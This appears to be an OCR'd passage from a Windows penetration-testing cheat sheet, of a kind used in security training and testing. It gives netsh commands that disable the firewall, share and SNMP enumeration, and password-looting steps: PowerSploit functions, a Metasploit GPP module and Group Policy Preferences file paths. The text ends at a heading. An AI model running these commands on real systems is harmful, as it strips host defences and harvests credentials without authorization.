 Disable firewall

```bat
netsh firewall set opmode disable
netsh advfirewall set allprofiles state off
```

List all network shares

```bat
net share
```

SNMP Configuration

```bat
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

---

## **Password looting**

### Tools

```bat
- Seatbelt.exe

- PowerSploit
Get-CachedGPPPassword //For locally stored GP Files
Get-GPPPassword //For GP Files stored in the DC
Get-UnattendedInstallFile
Get-Webconfig
Get-ApplicationHost
Get-SiteListPassword
Get-RegistryAutoLogon

- msf
post/windows/gather/credentials/gpp
```

### Group Policy Preferences

```bat
dir C:\ProgramData\Microsoft\Group Policy\History\<DOMAIN>\Machine\Preferences\Groups\Groups.xml
dir \\<DOMAIN>\SYSVOL\\Policies\<DOMAIN>\MACHINE\Preferences\Groups\Groups.xml

Services\Services.xml
ScheduledTasks\ScheduledTasks.xml
Printers\Printers.xml
Drives\Drives.xml
DataSources\DataSources.xml
```

### Unattended Install files
